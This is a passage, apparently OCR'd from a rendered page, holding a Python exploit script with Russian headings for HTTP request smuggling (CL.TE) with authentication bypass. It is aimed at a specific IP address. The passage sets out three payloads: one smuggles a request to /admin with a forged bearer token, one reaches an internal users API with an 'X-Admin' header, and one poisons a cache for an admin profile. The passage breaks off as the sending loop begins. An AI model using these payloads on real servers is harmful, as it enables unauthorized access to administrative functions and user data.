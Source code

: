 #### **Продвинутая эксплуатация с обходом аутентификации:**
```python
#!/usr/bin/env python3
# Продвинутый HTTP Request Smuggling с обходом аутентификации

import socket
import time

def advanced_smuggling_attack(target_ip, target_port=80):
    print("🔥 ADVANCED HTTP SMUGGLING EXPLOIT INITIATED")
    
    # CL.TE Smuggling payloads
    smuggling_payloads = [
        # Payload 1: Admin panel access
        (
            "POST / HTTP/1.1\r\n"
            "Host: 172.67.68.228\r\n"
            "Content-Length: 54\r\n"
            "Transfer-Encoding: chunked\r\n"
            "\r\n"
            "0\r\n"
            "\r\n"
            "GET /admin HTTP/1.1\r\n"
            "Host: 172.67.68.228\r\n"
            "Authorization: Bearer admin\r\n"
            "\r\n"
        ),
        
        # Payload 2: Internal API access
        (
            "POST / HTTP/1.1\r\n"
            "Host: 172.67.68.228\r\n"
            "Content-Length: 60\r\n"
            "Transfer-Encoding: chunked\r\n"
            "\r\n"
            "0\r\n"
            "\r\n"
            "GET /api/internal/users HTTP/1.1\r\n"
            "Host: 172.67.68.228\r\n"
            "X-Admin: true\r\n"
            "\r\n"
        ),
        
        # Payload 3: Cache deception
        (
            "POST / HTTP/1.1\r\n"
            "Host: 172.67.68.228\r\n"
            "Content-Length: 71\r\n"
            "Transfer-Encoding: chunked\r\n"
            "\r\n"
            "0\r\n"
            "\r\n"
            "GET /user/profile?victim=admin HTTP/1.1\r\n"
            "Host: 172.67.68.228\r\n"
            "X-Cache-Control: public\r\n"
            "\r\n"
        )
    ]
    
    for i, payload in enumerate(smuggling_payloads, 1):
        print(f"🎯 Testing smuggling payload #{i}")
        
        try:
```